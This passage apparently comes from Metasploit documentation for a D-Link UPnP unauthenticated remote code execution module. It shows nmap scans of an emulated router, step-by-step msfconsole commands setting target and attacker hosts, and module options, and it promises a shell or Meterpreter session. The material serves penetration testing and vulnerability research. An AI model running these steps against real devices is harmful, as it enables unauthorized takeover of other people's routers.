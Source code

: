 ```ShellSession
53/tcp    open  domain
80/tcp    open  http
443/tcp   open  https
8181/tcp  open  intermapper
49152/tcp open  unknown
MAC Address: 00:DE:FA:1A:01:00 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.25 seconds
 # nmap -sU 192.168.0.1
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-17 18:34 UTC
Nmap scan report for 192.168.0.1
Host is up (0.0019s latency).
Not shown: 993 closed udp ports (port-unreach)
PORT      STATE         SERVICE
53/udp    open          domain
67/udp    open|filtered dhcps
137/udp   open|filtered netbios-ns
1900/udp  open|filtered upnp
5353/udp  open          zeroconf
5355/udp  open|filtered llmnr
19541/udp open|filtered jcp
MAC Address: 00:DE:FA:1A:01:00 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1054.98 seconds
```
You are now ready to test the module using the emulated router hardware on IP address 192.168.0.1.

## Verification Steps
- [x] Start `msfconsole`
- [x] `use exploit/linux/upnp/dlink_msearch_unauth_lan_rce`
- [x] `set rhosts <ip-target>`
- [x] `set rport <port>`
- [x] ` set upnp_port 1900`
- [x] `set lhost <ip-attacker>`
- [x] `set target <0=Unix Command, 1=Linux Dropper>`
- [x] `exploit`

you should get a `shell` or `Meterpreter`

```ShellSession
msf6 exploit(linux/upnp/dlink_msearch_unauth_lan_rce) > options

Module options (exploit/linux/upnp/dlink_msearch_unauth_lan_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.0.1      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   UPNP_PORT  1900             yes       Universal Plug and Play (UPnP) UDP port
   URIPATH                     no        The URI to use for this exploit (default is random)
   URN        urn:device:1     no        Set URN payload
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

```